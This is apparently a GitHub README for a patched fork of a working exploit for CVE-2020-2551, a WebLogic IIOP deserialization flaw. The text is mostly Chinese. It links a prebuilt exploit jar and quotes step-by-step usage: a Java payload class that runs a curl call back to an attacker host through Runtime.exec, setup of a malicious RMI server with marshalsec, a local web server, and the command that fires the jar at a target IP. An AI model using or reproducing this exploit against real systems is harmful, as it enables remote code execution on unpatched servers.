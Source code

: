 ## Patch CVE-2020-2551
更新原版本（https://github.com/Y4er/CVE-2020-2551.git）遇到为私有地址的服务器无法直连检测问题。


## 参考
https://github.com/Y4er/CVE-2020-2551.git

https://xz.aliyun.com/t/7498

https://xz.aliyun.com/t/7374#toc-13




>## CVE-2020-2551
>Weblogic IIOP 反序列化
>
>## 测试环境
>Weblogic10.3.6+jdk1.6
>
>[打包好的jar包](https://pan.baidu.com/s/1WancKEtKzXDxwWP0zz3QPg) 提取码：a6ob 
>
>## 漏洞利用
>下载jar包，然后使用marshalsec起一个恶意的RMI服务，本地编译一个exp.java
>```java
>package payload;
>
>import java.io.IOException;
>
>public class exp {
>
>    public exp() {
>        String cmd = "curl http://172.16.1.1/success";
>        try {
>            Runtime.getRuntime().exec(cmd).getInputStream();
>        } catch (IOException e) {
>            e.printStackTrace();
>        }
>    }
>}
>```
>
>**尽量使用和weblogic相同的jdk版本和依赖库(wlfullclient.jar)编译** 然后本地起一个web服务器
>
>```
>python -m http.server --bind 0.0.0.0 80
>```
>
>命令行运行jar包
>```
>java -jar weblogic_CVE_2020_2551.jar 172.16.1.128 7001 rmi://172.16.1.1:1099/exp
>```
>实际效果如图
>![image](https://user-images.githubusercontent.com/40487319/75524749-81804100-5a49-11ea-8409-20746ca09299.gif)
>
>## 参考
>
>https://y4er.com/post/weblogic-cve-2020-2551/
